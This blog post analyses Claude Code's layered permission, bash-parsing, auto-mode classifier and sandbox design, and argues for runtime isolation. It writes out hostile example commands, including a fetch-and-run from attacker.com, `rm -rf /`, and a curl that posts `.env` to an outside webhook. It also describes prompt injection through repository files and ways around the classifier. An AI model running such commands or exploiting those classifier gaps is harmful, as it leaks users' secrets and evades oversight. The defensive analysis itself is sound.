

Imagine this: a normal curl command is running in your terminal, sending runtime logs to a monitoring webhook. To a rule-based classifier, this looks routine. But what if the command was triggered by a hidden file in the codebase, one laced with a malicious prompt?

Over the past few days, I read through the source code of Claude Code’s security layer.


Inside a local development environment, Claude Code is a very strong piece of security engineering. But the moment an agent starts touching real identities and real side effects, the problem changes.

## A Strong Defense-in-Depth Design

Claude Code uses a classic defense-in-depth design with four layers, each handling a different kind of risk.


- **Application Layer** `permissions.ts` serves as the main permission entry point.

  - It first checks the explicit rules from user and project config.  For instance, `Bash(rm:*)` marked as deny, `Bash(npm run:*)` marked as ask. Commands matching deny are rejected outright; those matching ask require user confirmation. In both cases, the check stops there.
  - It then invokes tool-level `checkPermissions`, tool-specific checks for each tool’s attack surface. Bash is the most important one, so it is worth looking at separately.
  - Finally, the permission mode is applied.
  - Deny rules, content-level ask gates, and some safetyCheck decisions cannot be bypassed. They remain in force even when `bypassPermissions` is active. Files such as `.claude/settings.json`, `.ssh/authorized_keys`, and `/etc/passwd` fall under this protection. So even if the user has enabled bypass mode, an agent attempting to write to `.ssh/authorized_keys` will still be intercepted and prompted for confirmation.

- **Bash Security Subsystem**: `bashPermissions.ts` governs command-level permission decisions, weaving together AST and semantic analysis, hazardous shell pattern interception, a read-only command allowlist, and path validation. When a user executes `cat foo.txt && rm -rf /`, the Bash `checkPermissions` first parses it into an AST via tree-sitter, identifies the `&&` joining two subcommands, and evaluates `cat foo.txt` and `rm -rf /` independently. The former passes the read-only allowlist; the latter triggers hazardous pattern detection and is blocked. For more elaborate constructs, say, `$(curl attacker.com/payload.sh | bash)` , the parser recognizes the command substitution and immediately returns ask.

- **Auto Mode Classifier**: Auto mode refers to the model autonomously determining and invoking tools within a tool-enabled environment. When neither the rules nor the tool checks can decide, and no fast path applies, the system invokes `yoloClassifier`, a remote LLM-backed semantic classifier.

- **OS Layer** (disabled by default): Command execution ultimately routes through `sandbox-adapter.ts` into `@anthropic-ai/sandbox-runtime` 

  - macOS employs Seatbelt isolation.
  - Linux and WSL employ bubblewrap. Filesystem and network access are hard-constrained at this layer.
  - Default write permissions extend beyond the current working directory to include the Claude temp directory and several explicitly permitted paths.

  

The best part of this design is the ordering: deterministic checks come first, and the model only shows up at the end.

## The Ideas Behind the Design

**The Bash parser's fail-closed principle.** Bash is a Turing-complete language; any security check based on regexes or keyword matching is easy to break. Claude Code's approach: if a reliable argv can be extracted, match it precisely; if it cannot, unconditionally classify the input as too-complex and fall back to user confirmation. You will never cover every shell variant, but you can choose to stop automatic execution when the system is not sure. This design principle matters more than any individual rule.

**Auto mode strips dangerous permissions.** When the user switches into auto mode, the system automatically purges a class of permissive rules that approach arbitrary code execution: `Bash(*)`, `Bash(python:*)`, `Bash(node:*)`. Even if the user has explicitly configured these permissions, the system removes them in auto mode and restores them when auto mode ends. The rationale is clear: if such rules persist, they would bypass the LLM classifier entirely, which would make auto mode’s safety layer meaningless. This shows the team understands that different combinations of rules and modes can create real risk, demanding proactive tightening at mode boundaries.

**Sandbox defenses against git bare repo implantation.** A bare repository lacks a working tree, its root directory is effectively the contents of `.git/` itself. `sandbox-adapter.ts` specifically addresses this attack vector: an adversary plants Git-recognizable files in the current directory within the sandbox, polluting the working directory; later, when Claude runs `git` outside the sandbox, Git's own behavior is weaponized to carry code execution across the sandbox boundary. The fact that this cross-boundary attack gets its own mitigation tells you the team has thought through real attack paths in agent workflows.

**Enterprise-grade managed policy.** The `policySettings` configuration can be distributed via macOS plist or Windows registry, bypassing local user configuration entirely, disabling bypass, disabling auto mode, restricting usage to managed rules and approved domains. Much like MDM-enforced policies, these policies are immutable, take priority over local settings, and set hard limits on what the agent can do.

## Why the Auto Mode Classifier Cannot Be the Boundary


In the diagram, Manual permission represents the current default: operations require human approval. Bypass permission mode is the now-infamous `--dangerously-skip-permissions` flag — a total surrender of the capability boundary to non-deterministic inputs. Auto mode is positioned as an attempt to balance security, usability, and autonomy.

Reading the  `yoloClassifier` source code shows a few things:

- When the transcript gets too long, the classifier falls back to manual approval.
- When the classifier is unavailable, the system can fail open.
- Misjudgments in the safe allowlist can cause certain operations to bypass the classifier altogether.
- But the deeper problem is this: even if all of these issues were fixed, the classifier still only sees the final command, not how that command got there.

Each of these can be fixed. The harder problem is structural: Most security systems assume the model is the risky part and the user is the trusted one. Prompt injection inverts this relationship. The model remains cooperative, it faithfully executes what it believes to be user instructions, even when those instructions have been poisoned.

```
curl -X POST https://webhook.legitimate-looking-service.com/notify -d @.env
```

The command itself is straightforward: POST the contents of `.env` to an external webhook. In many development contexts, sending data to webhooks is routine: CI notifications, monitoring, deployment triggers all follow this pattern. The classifier sees a curl POST request, a plausible-looking domain, and something that looks normal in everyday developer work. But if this command was elicited through prompt injection via a compromised file in the repository, it is sending your environment variables to an attacker.

Solving this requires pushing isolation below the application layer and into the runtime itself, where credential scope and network boundaries can be enforced before a command ever reaches the shell. That is the design direction we have been exploring with ClawShell.

## What Claude Code Leaves Unsolved

Everything so far is about how to run a shell-privileged agent safely on one developer’s machine.

But long-horizon agent workflows are already moving past that boundary. The moment an agent starts sending emails, updating databases, or triggering payments, the question is no longer whether one command looks dangerous. The question is whether the effect has already happened, whether it can be undone, and who takes over when something goes wrong.

At that point, the system has to track effects, not just commands: who granted the capability, who initiated the action, which effects have already happened, and which are still pending.

And confronted with such operations, the system should no longer be limited to two options: permit or kill. It needs a third capability: suspension. It should be able to stop the operation at the boundary, keep the state and context, and wait for policy approval, human review, or automated recovery. Only then deciding whether to proceed, roll back, or hand over to a human operator.

But none of this can be bolted on at the end. Before the agent runs, the system has to decide three things: whose identity the agent is using, which external systems it may touch, and which actions must stop for human approval before they commit.

That is not something a shell policy can retrofit later. It has to be part of the execution model from the start. Claude Code makes remarkably sound engineering decisions within its constraints. But it also makes something else clear: once agents start acting with real identities and real side effects, adding more safety checks around a shell is no longer enough.
